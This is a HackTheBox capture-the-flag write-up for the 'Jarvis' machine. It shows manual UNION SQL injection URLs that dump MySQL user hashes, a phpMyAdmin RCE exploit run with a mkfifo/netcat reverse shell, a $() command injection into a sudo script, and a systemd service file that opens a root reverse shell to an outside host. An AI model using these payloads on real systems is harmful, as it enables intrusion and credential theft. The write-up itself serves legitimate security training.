# Jarvis -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Jarvis (HackTheBox)
**Author:** dsec
**Date:** 2025-12-04

---

## TL;DR

### Manual UNION SQL injection to extract database credentials. phpMyAdmin 4.8 RCE for shell. Sudo script command injection via `$()` to pivot to pepper. Systemctl link abuse for root.
---

## Target info

- Host: `10.10.10.143` / `supersecurehotel.htb`
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`

---

## Enumeration







Found `/phpmyadmin`. Tried `admin:admin`:



---

## SQL injection



The `room.php?cod=` parameter populates a page with blank info instead of an error -- indicates SQL injection (IDOR would generate an error).

Worked through UNION injection manually. Started with `cod=100` (returns nothing), then incremented SELECT columns until the page populated again at 7 columns:

```
http://10.10.10.143/room.php?cod=100 UNION SELECT 1,2,3,4,5,6,7;-- -
```



Column mapping: 5=picture, 2=room title, 3=price, 4=description.

Compared to normal page:


Used column 2 for injection (text-based, displayed on page):



Extracted database names:

```sql
SELECT 1, group_concat(schema_name), 3, 4, 5, 6, 7 from information_schema.schemata;-- -
```







Extracted MySQL credentials:

```
http://supersecurehotel.htb/room.php?cod=100%20UNION%20SELECT%201,%20user,3,%20password,%205,%206,%207%20from%20mysql.user;--%20-
```



- `DBadmin:2D2B7A5E4E637B8FBA1D17F40318F277D29964D0`
- Crackstation: `imissyou`

---

## Foothold

Logged into `/phpmyadmin` as `DBadmin:imissyou` (case-sensitive):



phpMyAdmin 4.8:





```bash
python 50457.py 10.129.229.137 80 /phpmyadmin DBadmin imissyou "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.191 6969 >/tmp/f"
```



---

## Lateral movement (www-data to pepper)



The ping option in `simpler.py` uses a system call. Forbidden characters filter is missing `$()` (bash command substitution):



Tested: `$(echo 191)` gets interpreted as `191`:



Created a reverse shell script:

```bash
echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.14.191 443' > /tmp/d.sh
```

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```

Enter an IP: `$(/tmp/d.sh)`



---

## Privilege escalation (pepper to root)



Only root and users in group `pepper` can run systemctl, and it runs as root.

Created a malicious systemd service:

```bash
cat >dank1.service<<EOF
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.191 4443'
KillMode=process
Restart=on-failure
RestartSec=42s
[Install]
WantedBy=multi-user.target
EOF
```

Linked and started:

```bash
systemctl link /dev/shm/dank1.service
systemctl start dank1
```



---

## Lessons & takeaways

- UNION injection column count must match the original query -- increment until the page renders
- `group_concat()` is essential for pulling multiple rows into one injection response
- Command substitution `$()` is often missed in blacklist filters
- SUID on `systemctl` allows linking and starting arbitrary service files for root shells
---
